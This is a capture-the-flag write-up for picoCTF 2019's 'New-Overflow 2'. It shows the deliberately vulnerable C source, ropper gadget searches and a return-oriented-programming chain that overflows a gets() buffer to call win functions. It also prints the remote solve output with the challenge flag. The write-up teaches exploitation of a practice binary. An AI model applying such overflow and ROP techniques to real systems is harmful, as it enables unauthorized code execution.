

# New-Overflow 2 | PicoCTF2019
## Problem
Okay now lets try mainipulating arguments.

## Solution

### 1. Take a look at the source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }
}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```
The main function of the program calls the vuln function, which grabs input from stdin using gets. The objective is to use this input to invoke the win1 and win2 functions with their arguments set, and then finally call the flag function to print the flag.

### 2. Get to the win1 function
The size of the buffer is 64 bytes. Once that is written through, along with another 8 bytes, the argument 0xDEADBEEF needs to go into the RDI register - again referring to https://en.wikipedia.org/wiki/X86_calling_conventions, before the first function can be called. I can already see I will have to use ROP gadgets to accomplish this, so in ropper I'll do a search for pop instructions.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ ropper --file vuln --search pop
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: vuln
0x000000000040099c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099e: pop r13; pop r14; pop r15; ret; 
0x00000000004009a0: pop r14; pop r15; ret; 
0x00000000004009a2: pop r15; ret; 
0x00000000004006db: pop rbp; mov edi, 0x601070; jmp rax; 
0x000000000040099b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099f: pop rbp; pop r14; pop r15; ret; 
0x00000000004006e8: pop rbp; ret; 
0x00000000004009a3: pop rdi; ret; 	<------ This one
0x00000000004009a1: pop rsi; pop r15; ret; 
0x000000000040099d: pop rsp; pop r13; pop r14; pop r15; ret;
```
The pop rdi; ret instruction is perfect. The ropchain is constructed as follows:
`pop rdi + argument + win_fn1`  
For testing's sake, I'll add the final flag winning function address onto the end of the chain and test this payload so far to ensure I haven't broken anything yet.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 1957579
Welcome to 64-bit. Can you match these numbers?

[+] Receiving all data: Done (19B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1957579)
Nope, not quite...
```
So far, so good.

### 3. Get to the win2 function
Following this I need to call the second function, win_fn2, but this time with three arguments. These arguments are 0xBAADCAFE, 0xCAFEBABE and 0xABADBABE.
These need to be loaded into the registers RDI, RSI and RDX. Looking at the info above, I can load RDI and RSI fine, but I see nothing that can get any value loaded into RDX. When looking at the possible gadgets, I notice there is one which will flip the boolean in the win_fn2 function and return. The point to jump to is visible when analysing in R2.  
 
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ ropper --file vuln --search mov
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: vuln
0x00000000004007b4: mov byte ptr [rip + 0x2008bf], 1; nop; pop rbp; ret;  <---- this one
0x0000000000400777: mov byte ptr [rip + 0x2008fb], 1; nop; pop rbp; ret; 
0x0000000000400742: mov byte ptr [rip + 0x20092f], 1; pop rbp; ret; 
0x00000000004008a5: mov eax, 0; call 0x610; nop; leave; ret; 
0x00000000004008c1: mov eax, 0; call 0x630; nop; leave; ret; 
0x0000000000400926: mov eax, 0; call 0x8b2; mov eax, 0; leave; ret;
```
Calling this will do the job.  
So now the ropchain looks like:
`pop rdi + argument + win_fn1 + movpop + somevalue`  
Where `movpop` is the above instruction and `somevalue` is a 8-byte random value to be popped into rbp before returning.

### 4. Test and refine the payload
Running it now, it doesn't work.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 1960352
Welcome to 64-bit. Can you match these numbers?

[+] Receiving all data: Done (19B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1960352)
Nope, not quite...
```
This is because there is a stack alignment issue as a result of the payload (https://research.csiro.au/tsblog/debugging-stories-stack-alignment-matters/). This can be using a second payload which gets sent first, which redirects code flow back to main. I then send my second (and proper) payload that retrieves the flag (see solve.py).
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/kali/Desktop/pctf/newoverflow2/vuln'
[*] 0x0000:         0x4009a3 pop rdi; ret
    0x0008:       0xdeadbeef [arg0] rdi = 3735928559
    0x0010:         0x400767 win_fn1
    0x0018:         0x4007b4
    0x0020:       0xeeeeeeee
    0x0028:         0x4007be win_fn()
[+] Starting local process '/home/kali/Desktop/pctf/newoverflow2/vuln': pid 2404
Welcome to 64-bit. Can you match these numbers?

FLAG{Placeholder}

[*] Stopped process '/home/kali/Desktop/pctf/newoverflow2/vuln' (pid 2404)
```
Great, now it works.

### 5. Run it on the server to win
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py REMOTE
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/newoverflow2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'vuln'
[*] 0x0000:         0x4009a3 pop rdi; ret
    0x0008:       0xdeadbeef [arg0] rdi = 3735928559
    0x0010:         0x400767 win_fn1
    0x0018:         0x4007b4
    0x0020:       0xeeeeeeee
    0x0028:         0x4007be win_fn()
[+] Starting remote process u'vuln' on 2019shell1.picoctf.com: pid 1966372
Welcome to 64-bit. Can you match these numbers?

picoCTF{r0p_1t_d0nT_st0p_1t_3b39d86e}
```